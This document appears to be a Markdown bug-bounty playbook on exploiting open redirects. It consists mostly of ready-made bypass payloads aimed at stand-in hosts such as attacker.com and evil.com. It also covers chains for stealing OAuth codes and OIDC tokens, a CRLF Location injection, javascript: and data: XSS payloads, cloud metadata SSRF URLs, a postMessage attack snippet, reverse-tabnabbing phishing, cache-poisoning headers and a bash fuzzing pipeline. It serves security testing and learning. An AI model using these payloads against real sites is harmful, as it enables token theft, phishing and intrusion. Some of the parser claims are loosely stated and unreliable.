




*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
---

# Open Redirect : Master Playbook

> **Goal:** Tricking an application into sending users to an external, malicious URL.
> **Triggers:** Parameters like `?next=`, `?url=`, `?redirect_uri=`, or JavaScript sinks like `location.href`.
> **Context:** Imagine an official highway sign that says "Exit for Bank." You follow it, but the sign was placed by a thief to lead you into a trap. The "Exit" exists, but the **destination** is malicious.
> **Hacker Mindset:** "The developers trust their own domain. I'll find a way to make my malicious URL look like it belongs to them, or find a gap in how their 'signpost' validates the destination."

---

## 0. Exploit Selection Search Tree
*Use this logical search tree to triage the 30+ redirect scenarios:*



1.  **Does the app block `http://` but allow `//` or `\\`?**
    *   **Yes** → Use **[[#4.1 Scheme & Protocol Relative Bypasses]]**.
2.  **Does the app require a specific domain (e.g., `trusted.com`) to be present?**
    *   **Yes** → Use **[[#4.2 Normalization & User-Info Bypasses]]** (User-info `@` or Subdomains).
3.  **Are you testing a complex backend vs frontend discrepancy (Parser Desync)?**
    *   **Yes** → Use **[[#8. Absolute Zenith: Parser Desync (WHATWG vs. RFC)]]**.
4.  **Is the redirect part of an OAuth or OIDC login flow?**
    *   **Yes** → Use **[[#5.1 Master-Chain: OAuth Token Theft]]** (Token/Code Theft).
5.  **Is the redirect happening in the browser via JavaScript (`location.href`)?**
    *   **Yes** → Use **[[#6.2 Client-Side Redirect Sinks (DOM-Based)]]** (DOM Sinks).
6.  **Can you use Unicode characters like `．` to bypass string filters?**
    *   **Yes** → Use **[[#15. Absolute Zenith: Normalization Mastery]]**.
7.  **Is the redirection triggered by a header like `Referer` or a custom debug header?**
    *   **Yes** → Use **[[#3. Inject Burp Collaborator (OAST) payload]]**.
8.  **Can you "Chain" a redirect to bypass SSRF whitelists?**
    *   **Yes** → Use **[[#5.1 Master-Chain: OAuth Token Theft]]** (Chain Logic).
9.  **Are you testing a complex OAuth flow for token leakage?**
    *   **Yes** → Use **[[#5.1 Master-Chain: OAuth Token Theft]]**.

---

## 1. Professional Methodology: Summary Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Protocol Relative**| Hiding the protocol. | `//attacker.com` | Redirection to external site. | **Low ($200+)** |
| **Domain Wrap** | Using the "Trusted" name.| `trusted.com@attacker.com` | Bypasses domain whitelist. | **Medium ($500+)** |
| **OAuth Theft** | Stealing the keys. | Redirect in OAuth flow. | OAuth `code` sent to you. | **Critical ($3k+)** |
| **DOM-Based** | Tricking the Browser. | `location.href` in JS. | Client-side redirection. | **Medium ($600+)** |
| **Data URI (XSS)** | Executing code. | `javascript:` or `data:`. | XSS on the target domain. | **High ($2k+)** |


---

## 2. Why It Happens: Core Logic

### 2.1 The Trust Gap
Open Redirects occur when a web application takes a URL from a user-supplied parameter and uses it in a `Location` header (HTTP 301/302/303/307/308) or a JavaScript sink (like `window.location`) without validating where that URL points. 

The application assumes: *"If they were on my login page, the `?next=` page must be on my site too."*
The hunter proves: *"I can make the `?next=` page point to `attacker.com`, and the app will blindly send the user there."*

### 2.2 The Hunter's Mindset
Before you start throwing payloads, ask yourself:
*   [ ] Does this site redirect me after I log in?
*   [ ] Does the URL change when I switch languages or themes?
*   [ ] Can I see a full URL (or a path) inside the address bar? (e.g., `?url=/dashboard`).
*   [ ] What happens if I change `/dashboard` to `//google.com`?

---

## 3. Core Sink Identification: Where to Look

### 3.1 Common Parameters & Features
Always check these parameters first. They are the "Sinks" where redirects are most common.

*   **Parameters**:
    *   `?next=`, `?url=`, `?return=`, `?redirect_uri=`, `?dest=`, `?view=`, `?forward=`, `?target=`
*   **Features**:
    *   **Login/Logout**: Redirecting back to the original page after auth.
    *   **Profile Saves**: Redirecting back to settings after a "Save".
    *   **Language Jumpers**: Switching between local versions (e.g., `/en` to `/fr`).
    *   **OAuth Authorization**: The `redirect_uri` used in social logins.

### 3.2 Header-Based Sinks
*   **Referer Header**: Some apps redirect users back to their `Referer` after a 403 or logout.
*   **X-Forwarded-Host**: Occasionally used to construct the redirection base.

---

## 4. Standard & Apex Bypass Workflow

### 4.1 Scheme & Protocol Relative Bypasses
If the application tries to block `http://` or `https://`, use relative slashes.

*   **Standard relative**: `//attacker.com`
*   **Backslash variant**: `\\attacker.com` (Works in Chrome/Edge frequently).
*   **Multiple slashes**: `////attacker.com` or `//\attacker.com`.
*   **Missing Scheme**: `https:attacker.com` (Bypasses some regex checks).

### 4.2 Normalization & User-Info Bypasses
"Hiding" the domain inside what looks like a trusted URL.

*   **The User-Info Trap**: `https://trusted.com@attacker.com`
    *   > **Beginner Note**: The browser thinks `trusted.com` is a username/password string and `attacker.com` is the actual destination.
*   **Url Encoding Deception**: `//google.com%2f@attacker.com`
*   **Null Byte Deception**: `https://legit.com%00.attacker.com`

### 4.3 Domain Wrapping & Encoding
*   **Subdomain Hijack**: `https://trusted.com.attacker.com`
*   **Path Hijack**: `https://attacker.com/trusted.com`
*   **Double URL Encoding**: `%2568ttp%253a%252f%252f` (Bypasses filters that decode once).
*   **Path Confusion**: `trusted.com/..\attacker.com` (Using directory traversal to "exit" the trusted domain).

### 4.4 Advanced Unicode & Case Bypasses
*   **RTLO URI Spoofing**: Using the `U+202E` character (`%E2%80%AE`) to reverse display.
*   **Full-Width Characters**: `admin﹫target.com`
*   **Case Rotation**: Using `HTTPS://` or `hTtPs://`.

---

## 5. High-Impact Master-Chains

### 5.1 Master-Chain: OAuth Token Theft
This is the "Holy Grail" of Open Redirects. 
1.  **The Setup**: Find an OAuth `authorize` endpoint (e.g., `target.com/oauth/authorize?redirect_uri=...`).
2.  **The Injection**: Use an Open Redirect on the site to bypass the `redirect_uri` whitelist.
3.  **The Payload**: `?redirect_uri=https://trusted.com/callback?url=https://attacker.com`
4.  **The Result**: The OAuth `code` or `access_token` is sent to the `callback` page, which then immediately redirects it to the **attacker**.

#### 5.1.1 Visualizing the OAuth Theft Chain


### 5.2 Master-Chain: SSRF Escalation
1.  **Logic**: Find an Open Redirect on an internal host (found via SSRF).
2.  **Chain**: Point the SSRF at the Open Redirect.
3.  **Result**: The server follows the redirect, allowing you to pivot to a different internal host or cleartext protocol like `gopher://`.

### 5.3 Master-Chain: CRLF to Open Redirect
1.  **Injection**: Use CRLF (`%0d%0a`) in a header (e.g., `Set-Cookie`).
2.  **Payload**: `%0d%0aLocation:%20http://attacker.com`
3.  **Result**: Forcing a redirect response even if the application logic didn't intend to.

### 5.4 Master-Chain: Cloud-Native Redirection (AWS S3)
*   **Zenith Technique**: If an app whitelists `*.s3.amazonaws.com`, you can create an S3 bucket configured for "Static Website Hosting" with a **Redirection Rule**.
*   **The Chain**:
    1.  User visits `trusted.com?next=https://your-bucket.s3.amazonaws.com`.
    2.  The S3 bucket (trusted by the app) sends a `301 Redirect` to `attacker.com`.
    3.  **Impact**: This bypasses strict whitelists by using an "official" cloud service as a proxy.

---

## 6. Client-Side & DOM Mastery

### 6.1 Why It Happens (The "Browser Redirect")
Unlike server-side redirects (which happen via the `Location` header), DOM-based redirects happen inside the resident JavaScript of the page. The server sends a normal page, and the browser's own JS decides to move you somewhere else.

### 6.2 Client-Side Redirect Sinks (DOM-Based)
Look for user input (from `location.search` or `location.hash`) reaching:
*   `location.href`
*   `location.assign()`
*   `location.replace()`
*   `window.open()`

### 6.3 PostMessage Redirection Hooks
*   **The Vector**: An iframe listener trusts a `postMessage` to perform a redirect.
    ```javascript
    window.addEventListener('message', (e) => {
        if(e.target.action === "redirect") location.href = e.data.url;
    });
    ```
*   **The Attack**: Host a site that iframes the target and sends a postMessage:
    ```javascript
    win.postMessage({action: "redirect", url: "//attacker.com"}, "*");
    ```

---

## 7. Verification & PoC

### 7.1 Manual Verification
1.  **Curl Test**: Check if the `Location` header matches your input.
    ```bash
    curl -I "https://target.com/login?next=//attacker.com" | grep -i "Location"
    ```
2.  **Browser Test**: Simply press Enter. If you land on `attacker.com`, it's a success.

### 7.2 Automation Toolbox
*   **Nuclei**: Use the `open-redirect` template for mass discovery.
*   **Oral (Open Redirect Active Linker)**: A multi-tool for finding and fuzzing redirection parameters.

---

## 8. Absolute Zenith: Parser Desync (WHATWG vs. RFC)

### 8.0 Why It Happens (The "Rule Book" Discrepancy)
There isn't just one way to read a URL. Browsers (like Chrome/Safari) follow the **WHATWG** specification, while backend languages (Python, Java, Go) often follow the older **RFC 3986**. This "Parser Gap" allows you to trick the server-side validator while the browser still lands exactly where you want it to.

### 8.1 The Fragment/User-Info Confusion
Many backends stop parsing at the `#` or `@` symbols, but browsers process them differently.

*   **The Payload**: `http://trusted.com#@attacker.com`
    *   **Backend View**: Sees `trusted.com` and thinks: "This is safe!" (as it ignores everything after `#`).
    *   **Browser View**: Sees `@attacker.com` as the primary host and `trusted.com#` as the username/fragment, leading to a redirect to `attacker.com`.
*   **The Dot-Colon Trick**: `http://trusted.com:.attacker.com` 
    *   Depending on the parser, the colon might be treated as a port or part of the hostname, allowing you to bypass strict subdomain filters.

---

## 9. Absolute Zenith: Escalation to XSS (The Data URI Chain)

### 9.1 Turning a Redirect into RCE
An Open Redirect is often a P4 (Low), but if the sink allows special protocols, it becomes P2 (High) XSS. This happens when the application doesn't just redirect to a site, but allows you to control the **entire** URL string.

*   **JavaScript Protocol**: `?next=javascript:alert(document.domain)`
    *   If the app uses `location.href` to redirect, this executes the script instead of moving the browser.
*   **Data URI (HTML Injection)**: `?next=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`
    *   The browser "navigates" to a new page composed entirely of the HTML/JS you provided in the Base64 string.
*   **Impact**: You aren't just sending them to a phishing site; you are executing malicious code **on the target domain itself** (if the browser treats the Data URI origin correctly).

---

## 10. Absolute Zenith: The Automation Arsenal (High-Speed OAST)

### 10.1 The Elite Pipeline
When hunting at scale, you don't manually test parameters. You use a high-speed "Out-of-Band" (OAST) pipeline to find redirects that don't trigger in the browser immediately (e.g., hidden internal redirects).

**The Bash Pipeline**:
```bash
# 1. Collect all URLs from archives
gau $DOMAIN | uro | grep "=" > targets.txt

# 2. Extract potential redirection parameters
cat targets.txt | grep -iE "next=|url=|redirect=|dest=|return=" > redirect_candidates.txt

# 3. Inject Burp Collaborator (OAST) payload
cat redirect_candidates.txt | qsreplace "http://YOUR_COLLAB_ID.oastify.com" > payloads.txt

# 4. Fuzz and monitor your listener for hits
httpx -l payloads.txt -silent -status-code -title
```

> **Zenith Tip**: Always use a collaborator/webhook-style URL. If an app performs a "Blind" server-side fetch before redirecting, you'll catch the hit on your listener even if the browser doesn't move.

---

## 11. Absolute Zenith: OIDC Implicit Flow Tampering

### 11.1 Stealing the Fragment (`#`)
In OpenID Connect (OIDC) "Implicit Flow," the sensitive `id_token` is sent in the URL fragment (the part after the `#`). Browsers **never** send the fragment to the server, so a standard redirect can't catch it.

*   **The Attack**: 
    1.  Find an Open Redirect on the callback page: `target.com/callback#id_token=SECRET`.
    2.  Redirect to your site: `?url=//attacker.com`.
    3.  Because it's a DOM-based redirect (or a client-side link), the browser **persists** the fragment: `attacker.com/#id_token=SECRET`.
    4.  The attacker uses JS on their page (`location.hash`) to read the token.

---

## 12. Absolute Zenith: Chained CSRF Bypasses (Lax Evasion)

### 12.1 The "Same-Origin" Bounce
Modern browsers use `Cookie: SameSite=Lax` by default, which blocks cross-site POST requests (CSRF). 

*   **The Bypass**: An Open Redirect on the **same domain** can be used as a "Bounce."
1.  Attacker sends a victim a link to an Open Redirect on `target.com`.
2.  The redirect points to a state-changing endpoint on `target.com`.
3.  Because the redirect started **on the same domain**, the browser treats the subsequent request as "Same-Site" and attaches the session cookies, bypassing the Lax restriction.

---

## 13. Absolute Zenith: Cloud-Era Redirections

### 13.1 Cloud Metadata Poisoning (SSRF Chain)
In modern cloud environments, an Open Redirect can be the bridge to total server takeover via SSRF.
*   **GCP Metadata**: `?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`
    *   If the app's redirection logic follows the URL on the server-side first (SSR), it may leak the instance token.
*   **Azure Metadata**: `?url=http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01`

### 13.2 Signed URL & CDN Bypasses
*   **CloudFront/S3 Signed URLs**: If a site generates signed URLs for images, but uses a redirect to serve them, you can sometimes "swap" the signed URL for an attacker-controlled one.

---

## 14. Absolute Zenith: The "Referer" Trap

### 14.1 Redirect-to-Referer Patterns
Many applications behave differently when you reach a 403 (Forbidden) or 404 (Not Found) page. They try to be "helpful" by redirecting you back to where you came from.

*   **The Vector**:
    1.  Attacker hosts: `https://evil.com/redirect_test`.
    2.  Victim clicks the link, which sends them to `https://target.com/404_page`.
    3.  The server sees `Referer: https://evil.com/redirect_test`.
    4.  Server issues: `302 Found` | `Location: https://evil.com/redirect_test`.
*   **The Chain**: This can be used to exfiltrate sensitive tokens in the URL (like CSRF or OAuth tokens) by forcing the browser to send those tokens back to the attacker's site via the Referer header in the subsequent redirect.

---

## 15. Absolute Zenith: Normalization Mastery

### 15.1 Unicode "Folding" Bypasses
Many applications perform "Normalization" on the URL before checking the whitelist. If they normalize **after** checking the scheme, you can use Unicode variants that "fold" into malicious characters.

*   **Punycode Deception**: `http://xn--googl-0qa.com` (Looks like `googlé.com`).
*   **The Dot-Colon Folding**: Using `U+FF0E` (Fullwidth Full Stop `．`) instead of a standard `.`.
    *   `attacker．com` might bypass the `target.com` string check but resolve to `attacker.com` after normalization.
*   **Case Folding**: Some filters are case-sensitive but the browser isn't.
    *   `jAVasCRIpt:alert(1)` (Bypasses `javascript:` regex).

---

## 16. Singularity: Mobile Deep Link Routing

### 16.1 Desktop-to-Mobile Escalation
Open Redirects aren't limited to `http(s)`. Many mobile apps register "Deep Links" or "Custom Schemes" to perform actions inside the app.

*   **The Scheme Injection**: `?next=intent://#Intent;scheme=safeapp;package=com.safe.app;S.browser_fallback_url=http%3A%2F%2Fattacker.com%2F;end`
*   **Why It Works**: If the browser is on a mobile device and the filter only checks for "no `http` at the start", you can use an Android `intent:` or a custom scheme (like `slack://` or `spotify://`).
*   **Impact**:
    - **Unauthorized Actions**: Triggering API calls inside the app (e.g., `app://delete_account`).
    - **Mobile XSS**: If the app has its own internal webview that trusts the deep link parameters.

---

## 17. Singularity: Reverse Tabnabbing (Opener Pivot)

### 17.1 The "Parent" Hijack
When a user clicks a link with `target="_blank"`, the new page has a "link" back to the original page via the `window.opener` object.

*   **The Attack**:
    1.  User is on `trusted.com`.
    2.  They click a link: `trusted.com?redirect=//attacker.com`.
    3.  A new tab opens on `attacker.com`.
    4.  **The Pivot**: `attacker.com` runs: `window.opener.location = "https://attacker.com/phish/trusted-login";`.
    5.  **Result**: While the user is looking at the new tab, the **original** trusted tab changes to a phishing page. When they switch back, they see a "timed out" login screen and enter their credentials.

> **Defensive Note**: This is why `rel="noopener"` is mandatory for external links.

---

## 18. Singularity: Framework-Specific Parser Exploits

### 18.1 PHP `parse_url()` Discrepancies
PHP's internal URL parser has historical quirks that differ from how modern browsers (Chrome/Safari) treat URI components.

*   **The "Double Colon" Bypass**: `//google.com:80%20@attacker.com/`
    - **PHP Sees**: `google.com` (as the host) and ignores the rest as a "port/path" string.
    - **Browser Sees**: `@attacker.com` as the host and `google.com:80` as the userinfo.
*   **The Triple Slash**: `///attacker.com`
    - Bypasses regex that specifically looks for exactly two slashes (`//`) but treats more as a local path.

### 18.2 Ruby `URI.parse()` vs. `Addressable`
In Rails, `URI.parse` is often strict, but `Addressable` (often used in Gems) is more lenient.
*   **The Space Inject**: `http://google.com \attacker.com`
    - Some parsers terminate at the space (validating `google.com`), while browsers strip or encode the space, landing on the slash-prefixed `attacker.com`.

### 18.3 Go (Golang) & .NET Enterprise Quirks
*   **Go `url.Parse()`**: Handles multiple slashes differently than modern Chrome. Injecting `////attacker.com` might result in a "Relative Path" resolution in Go logic but an "Absolute Host" resolution in the client.
*   **.NET `Uri.IsWellFormedUriString`**: This common check often fails on Unicode "Idna" domains. A domain like `xn--...` might pass the "Safe" check but be normalized to a malicious external host in the final redirection sink.

---

## 19. Singularity: Host-Header Implicit Redirection

### 19.1 The "Relative-to-Absolute" Trap
Developers often build redirection URLs using the `Host` header from the request to save time.
*   **Vulnerable Code**: `location.href = "https://" + request.headers['Host'] + "/dashboard";`
*   **The Injection**:
    - Request: `GET /redirect HTTP/1.1`
    - `Host: attacker.com`
*   **Result**: The server issues `302 Found | Location: https://attacker.com/dashboard`.
*   **The "Implicit" Pivot**: This is powerful because there is **no parameter** to fuzz. You must audit the headers.

### 19.2 WAF Bypass Headers for Host Poisoning
If the main `Host` header is blocked, try these "Alternative Host" headers that proxies often use:
- `X-Forwarded-Host: attacker.com`
- `X-Forwarded-Server: attacker.com`
- `X-Host: attacker.com`
- `Forwarded: host=attacker.com`

---

## 20. Singularity: Second-Order Redirection (The Sleeper Payload)

### 20.1 The Stored Redirect
Most redirects are "Reflected" (instant). Second-order redirects are **stored** in the database.

*   **The Scenario**: An application allows you to set a "Return URL" for your organization profile.
*   **The Payload**: You set your "Support URL" to `//attacker.com/malicious-hook`.
*   **The Detonation**: An Admin logs into their Internal Dashboard and clicks the "View Organization" button. The dashboard code reads your stored URL and performs a `302` or `window.location` jump.
*   **Impact**: High. You are targeting an internal Admin from a low-privilege account without any direct interaction.

---

## 21. Singularity: The Blind Redirect Oracle

### 21.1 Timing-Based Exfiltration
What if there is no visible response? You can use an Open Redirect to exfiltrate data character-by-character using timing.

*   **The Concept**: Point the redirect at a slow, attacker-controlled server.
*   **The Oracle**: `?redirect=http://attacker.com/slow_resp?data=SECRET`
*   **The Logic**:
    - If the application executes the redirect *conditionally* based on a secret (e.g., "Redirect only if admin_token starts with 'a'"), you can measure the response time.
    - If the server has a long connection delay, the application's response will hang until the redirect times out, revealing that the condition was true.

---

## 22. Singularity: Redirect-to-RCE (Chaining Patterns)

### 22.1 The "Nuclear" Chain: Prototype Pollution
An Open Redirect can be the delivery mechanism for high-impact RCE chains.

1.  **Pollution**: Use a Prototype Pollution bug to poison `Object.prototype.url`.
2.  **The Sink**: A vulnerable script loads a resource: `<script src="config.js">`.
3.  **The Chain**:
    - The `config.js` loader uses the polluted `url` property.
    - An Open Redirect on a CDN (e.g., `cdnjs.cloudflare.com/ajax/libs/.../?redirect=attacker.com/evil.js`) is used to point the script load to your malicious code.
4.  **Result**: You've bypassed CSP and whitelists by using a trusted CDN's redirect functionality to serve your RCE payload.

---

## 23. Singularity: The Referer-Policy Leak

### 23.1 Bypassing Token Stripping
Modern browsers use `Referrer-Policy: strict-origin-when-cross-origin` to strip sensitive URL parameters from the `Referer` header when moving cross-site.

*   **The Attack**: Use an Open Redirect on the **same domain** as a "Hop."
1.  Target page with token: `target.com/dashboard?token=SECRET`.
2.  Open Redirect on same domain: `target.com/redirect?url=http://attacker.com`.
3.  **The Hop**:
    - The browser moves from `/dashboard` to `/redirect` (Same-Site). The `Referer` sent to `/redirect` is the **full URL** with the token.
    - The server then redirects to `attacker.com`.
    - Depending on the browser implementation and redirect type (307/308 vs 302), the attacker's server might receive the **initial** referer (`/dashboard?token=SECRET`) instead of the intermediate one, leaking the token cross-site.

---

## 24. Omniscient: Cache-Poisoned Mass Redirection

### 24.1 The Unkeyed Header Chain
Open Redirects are typically one-to-one attacks. Cache Poisoning turns them into **one-to-many** attacks.

*   **The Scenario**: An application uses the `X-Forwarded-Host` header to determine the base URL for redirects (e.g., after login). 
*   **The Poison**: 
    1.  Attacker sends: `GET /login HTTP/1.1 | Host: target.com | X-Forwarded-Host: evil.com`.
    2.  The application generates a response: `302 Found | Location: https://evil.com/dashboard`.
    3.  If the CDN/Cache doesn't include `X-Forwarded-Host` in the "Cache Key," it saves this 302 response for the URL `/login`.
*   **The Detonation**: Every legitimate user who visits `target.com/login` for the next 10 minutes (or the TTL) is automatically redirected to `evil.com`.

---

## 25. Omniscient: HTTP Parameter Pollution (HPP) Bypasses

### 25.1 Splitting Validation from Execution
In HPP, you send multiple parameters with the same name. Different backend technologies handle this differently, allowing you to bypass a WAF/Validator that only looks at one instance.

*   **Payload Example**: `?next=https://trusted.com&next=https://attacker.com`
*   **Framework Behavior**:
    - **PHP / ASP.NET**: Usually takes the **Last** instance (`attacker.com`). If the WAF only checks the **First**, you bypass it.
    - **Node.js (Express)**: Returns an **Array** `["trusted.com", "attacker.com"]`. If the code does `location = next[1]`, it uses the attacker's URL.
    - **Ruby on Rails**: Takes the **First** instance.

*   **The "Glue" Bypass**:
    - Query: `?url=https://trusted.com&url=.attacker.com`
    - ASP.NET might concatenate them with a comma: `https://trusted.com, .attacker.com` (potentially breaking filters but landing on a malformed path).

---

## 26. Omniscient: Headless Browser SSRF (PDF/Image Generators)

### 26.1 The "Export" Pivot
Applications that generate PDFs or screenshots (e.g., invoice generators) often use headless browsers like Puppeteer or Selenium to render the HTML.

*   **The Attack**: 
    1.  You find a feature that "Screenshots" a user-provided URL.
    2.  You provide a URL to your own server: `http://attacker.com/trigger`.
    3.  Your server responds with an **Open Redirect**: `Location: http://169.254.169.254/latest/meta-data/`.
*   **Why It Works**: Headless browsers often ignore standard SSRF filter lists (which only check the initial URL) and will blindly follow the redirect.
*   **Impact**: The resulting PDF/Image contains the internal Cloud Metadata or administrative console of the server.

---

## 27. Omniscient: WebSocket Handshaking Redirects

### 27.1 Handshake Hijacking
When a browser upgrades a connection to a WebSocket (`Connection: Upgrade`), it starts with a standard HTTP GET request.

*   **The Redirect**: If the server responds to the upgrade request with a `301/302` redirect, some specialized clients (mobile apps, desktop clients, or older browsers) follow it to a new WebSocket endpoint.
*   **The Collision**: This allows you to redirect a legitimate WebSocket handshake to an attacker-controlled listener, potentially stealing session data sent in the initial handshake headers (like `Sec-WebSocket-Key` or custom Auth headers).

---

## 28. Omniscient: Visual Mastery (Advanced Chains)

### 28.1 Visualizing Reverse Tabnabbing (Parent Hijack)


### 28.2 Visualizing OIDC Fragment Persistence


## 29. Resources & Reference

*   **PortSwigger Academy**: [Open Redirects Guide](https://portswigger.net/web-security/open-redirect)
*   **OWASP**: [Unvalidated Redirects and Forwards](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)
*   **WHATWG URL Spec**: [Technical URL Parsing](https://url.spec.whatwg.org/)

---

---
---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [🔙 Back to Checklist](../../Element%20Testing%20Checklist.md) | [Next: WAF Bypasses >>](WAF%20&%20Infrastructure%20Bypasses%20%5BMASTER%5D.md) >>*
